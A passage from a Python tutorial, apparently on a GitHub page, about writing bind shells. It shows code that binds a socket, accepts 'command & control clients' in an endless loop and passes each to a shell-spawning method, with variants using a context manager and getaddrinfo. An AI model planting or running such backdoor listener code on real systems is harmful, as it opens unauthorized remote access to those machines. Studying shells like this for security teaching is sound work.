 ```python
        # cleanup socket objects
        clientSocket.close()
    sock.close()
```

# With Statement

Again, we can shorten our code by removing the need to manually close the socket objects by utilizing a context manager. The with statement is preferable as it leads to cleaner and safer code.



```python
@infinite
@ncat
def bind_shell_context(self):
    # socket object is created and assigned to bshell
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        try:
            sock.bind(self.addr)
        except OSError as error:
            if error.errno == 10048:
                print("Another service is using this address.")
                os._exit(1)

        host, port = sock.getsockname()
        print(f"Binding: {host}:{port}")
        # Enable a server to accept connections
        # 1 unaccepted connection allowed before
        # refusing new connections
        sock.listen(1)

        # infinitely accept new command & control clients
        while True:
            clientSocket, (ip, port) = sock.accept()
            print(f"{ip}:{port}> joined ...")

            with clientSocket:
                self._spawn(clientSocket, ip, port, True)
```

# GetAddrInfo

The method using getaddrinfo works the same way as before translating the host/port argument into a sequence of 5-tuples used to create a socket object. The difference this time is that we would pass in 'localhost' as the address which would cause getaddrinfo to attempt to associate the socket object to a local endpoint using bind() through a method not unlike bruteforce.



```python
@infinite
@ncat
def bind_shell_getaddrinfo(self):
    for addrinfo in socket.getaddrinfo(*self.addr, socket.AF_UNSPEC, socket.SOCK_STREAM):
        family, _type, proto, canonname, sockaddr = addrinfo
        try:
            bshell = socket.socket(family, _type, proto)
            bshell.bind(sockaddr)
            bshell.listen(1)
        except OSError:
            bshell.close()
            bshell = False
            continue
        print(f"Listening: {':'.join(map(str, sockaddr[:2]))}")
```